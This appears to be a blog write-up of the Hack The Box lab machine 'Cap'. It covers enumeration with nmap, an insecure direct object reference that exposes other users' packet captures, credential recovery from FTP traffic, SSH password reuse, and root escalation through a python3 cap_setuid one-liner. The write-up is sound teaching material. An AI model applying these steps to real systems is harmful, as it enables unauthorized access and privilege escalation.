 ```yaml
---
layout: post
title: "HTB: Cap"
author: Andrew Cherney
date: 2023-02-11 10:03:53
tags: htb easy-box linux webapp idor wireshark
icon: "assets/icons/cap.png"
post_description: "Cap is a clever name for this box as it involves looking through a pcap file for credentials to login as the user nathan. To obtain root the user must use a cap_setuid capability set for python. Overall basic but a pretty good test of some fundamentals."
---
```


<h1>Summary</h1>

Cap is a clever name for this box as it involves looking through a pcap file for credentials to login as the user nathan. To obtain root the user must use a cap_setuid capability set for python. Overall basic but a pretty good test of some fundamentals. 

<h1>Enumeration</h1>

<h2>nmap</h2>

```bash
nmap 10.10.10.245 -sC
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-12 17:33 CST
Nmap scan report for 10.10.10.245
Host is up (0.050s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http
|_http-title: Security Dashboard
```

<h2>Port 80 - http</h2>

![Security Dashboard](/img/cap/security_dashboard.png)

Here we have a security dashboard front page broadcasting basic security info such as security events, login attempts, and port scans. 

![Dashboard Sidebar](/img/cap/Cap_dashboard_sidebar.png)

On the sidebar there seems to be different pages that run differing commands. There's one for netstat, ifconfig, and a third for some packet capturing. 

![netstat](/img/cap/Cap_netstat.png)

![ifconfig](/img/cap/Cap_ifconfig.png)

![pcap download](/img/cap/Cap_pcap.png)

<h1>User as nathan</h1>

<h2>IDOR</h2>

If I download the pcap it gives me the file **1.pcap** but the more pressing matter is the url where I downloaded that pcap from. It's location is **/data/1** and if I replace that 1 with another number I might be able to download different pcaps. 

![data 0 pcap download](/img/cap/Cap_dashboard_data_0.png)

Excellent this gives a different number of packets and a different pcap file entirely. This is called Insecure Direct Object Reference, and as the name implies it allows an attacker to guess subsequent or future entries due to them following some scheme or pattern. 

<h2>PCAP Analysis</h2>

![pcap 0 wireshark](/img/cap/Cap_pcap_0_wireshark.png)

HTTP and FTP traffic can be found. Notable packets include the ones where the user nathan logs into FTP with the password **Buck3tH4TF0RM3!**, then lists the directory twice, and fails to retrieve a file named **notes.txt**. 

Now I've made this mistake in the pass where I spend hours enumerating through a service like ftp or a wordpress login, when I should always try that new password with the user for an ssh login. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Cap]
└──╼ $ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ cat user.txt
bd987c30a7e946cc2---------------
```

<h1>Root</h1>

<h2>Capabilities</h2>

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

<h2>cap_setuid</h2>

For the uninitiated, capabilities are a way to give specific administrative rights to commands, scripts etc.. that allow them to perform necessary functions without creating security issues, most of the time anyway. Take the capability **cap_net_bind_service**, which allows the service or command to bind to a port without needing root permissions or a password. 

For our purposes capabilities such as **cap_setuid** are what we look for, and with it attached to python is makes priv esc simple. We can construct a python command which imports the os module for linux command running, then set the user id to 0 (root) and run **/bin.bash** with **os.system**. 

```bash
nathan@cap:~$ python3 -c "import os; os.setuid(0); os.system('/bin/bash')"
root@cap:~# cat /root/root.txt
d40593e74f550e2----------------
```

